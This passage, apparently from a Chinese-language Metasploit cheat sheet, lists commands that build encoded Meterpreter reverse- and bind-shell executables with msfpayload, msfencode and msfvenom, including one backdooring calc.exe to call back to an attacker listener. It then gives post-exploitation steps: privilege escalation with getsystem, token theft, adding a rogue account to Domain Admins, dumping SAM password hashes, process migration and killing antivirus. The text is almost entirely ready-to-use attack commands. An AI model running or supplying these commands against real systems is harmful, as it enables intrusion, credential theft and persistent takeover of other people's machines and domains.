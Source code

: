 ```bash
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R | msfencode -x calc.exe -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe
```
创建一个反弹式的Meterpreter攻击载荷，回连到192.168.1.5主机的443端口，使用calc.exe作为载荷后门程序，不让载荷执行流一直运行在被攻击的应用程序中，同时在攻击载荷执行后也不会在目标主机上弹出任何信息。这种配置非常有用，当你通过浏览器漏洞控制了远程主机，并不想让计算器程序打开呈现在目标用户前面。同样，最后生成用.shikata_ga_nai编码的攻击载荷程序payload.exe。

```bash
msfpayload windows/meterpreter/bind_tcp LPORT=443 R | msfencode -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe && msfcli multi/handler PAYLOAD=windows/ meterpreter/bind_tcp LPORT=443 E
```
创建一个raw格式bind_tcp模式Meterpreter攻击载荷，用shikata_ga_nai编码7次，输出一payload.exe命名的Windows可执行程序文件，同时启用多路监听方式进行执行。

## 七、MSFvenom

利用MSFvenom，一个集成套件，来创建和编码你的攻击载荷。
```bash
msfvenom --payload
windows/meterpreter/reverse_tcp --format exe --encoder x86/shikata_ga_nai LHOST=172.16.1.32 LPORT=443 > msf.exe
[*] x86/shikata_ga_nai succeeded with size 317 (iteration=1)
root@bt://opt/framework3/msf3#
```
这一行命令就可以创建一个攻击载荷并自动产生可执行文件格式。

## 八、Meterpreter后渗透攻击阶段命令

在Windows主机上使用Meterpreter进行提权操作：
```bash
meterpreter > use priv
meterpreter > getsystem
```

从一个给定的进程ID中窃取一个域管理员组令牌，添加一个域账户，并把域账户添加到域管理员组中：
```bash
meterpreter > ps

meterpreter > steal_token 1784
meterpreter > shell

C:\Windows\system32>net user metasploit p@55w0rd /ADD /DOMAIN
C:\Windows\system32>net group "Domain Admins" metasploit /ADD /DOMAIN
```

从SAM数据库中导出密码的哈希值：
```bash
meterpreter > use priv
meterpreter > getsystem
meterpreter > hashdump
```
提示：在Windows 2008中，如果getsystem命令和hashdump命令导出异常情况时，你需要迁移到一个以SYSMTEM系统权限运行的进程中。

自动迁移到一个独立进程：
```bash
meterpreter > run migrate
```
通过Meterpreter的killav脚本来杀死目标主机运行的杀毒软件进程：
```bash
meterpreter > run killav
```
